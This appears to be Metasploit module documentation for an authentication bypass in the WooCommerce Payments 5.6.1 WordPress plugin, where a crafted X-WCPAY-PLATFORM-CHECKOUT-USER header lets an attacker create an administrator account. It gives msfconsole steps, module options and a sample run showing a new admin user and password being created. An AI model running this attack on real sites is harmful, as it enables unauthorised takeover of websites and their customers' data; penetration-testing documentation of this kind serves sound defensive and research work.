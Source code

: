 ## Vulnerable Application

WooCommerce-Payments plugin for Wordpress contains an authentication bypass by specifing a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header.  With this authentication bypass, a user can then use the API
to create a new user with administartive privileges IF the user ID selected was also an administrator.

### Install

Download, install, and Activate [woocomerce-payments](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and WooCommerce itself is not required.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a new administrator created and the credentials.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for an administrator. Defaults to `1`

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf6 > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set username h00die
username => h00die
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create administrator -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
